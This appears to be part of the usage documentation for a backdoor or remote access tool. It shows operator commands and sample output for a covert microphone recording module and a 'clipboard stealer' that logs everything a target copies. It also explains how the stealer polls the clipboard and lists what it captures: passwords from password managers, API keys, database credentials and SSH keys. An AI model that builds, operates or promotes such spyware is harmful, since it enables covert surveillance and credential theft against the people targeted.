 ##### Output Example

```
# Background recording
> audio_start
[+] Background audio recording started: logs/audio/audio_20251005_143530.wav

> audio_status
Audio recording in progress: logs/audio/audio_20251005_143530.wav

> audio_stop
[+] Audio recording stopped and saved: logs/audio/audio_20251005_143530.wav (15.3 MB)

# Fixed duration
> audio_record 30
[+] Audio recorded: logs/audio/audio_20251005_145000.wav

# List all
> audio_list
[+] Audio recordings:
  - audio_20251005_143530.wav (15.3 MB)
  - audio_20251005_145000.wav (3.2 MB)
```

#### Clipboard Stealer

The clipboard stealer monitors and captures all text copied to the target's clipboard, providing a powerful way to steal passwords, sensitive data, and other information.

```
clipboard_start
```

Response: `[+] Clipboard monitoring started. Logging to: logs/clipboard/clipboard_20251004_150230.txt`

##### How It Works

###### Real-time Monitoring

1. **Background Thread**: Runs continuously checking clipboard every 1 second
2. **Change Detection**: Compares current clipboard with last known content
3. **Automatic Logging**: When clipboard changes, logs timestamp and full content
4. **Non-blocking**: Doesn't interfere with backdoor operations

###### What Gets Captured

- Passwords copied from password managers
- Text copied from documents
- URLs copied from browsers
- Email addresses and usernames
- API keys and tokens
- Database credentials
- SSH keys
- Any text content copied by the user
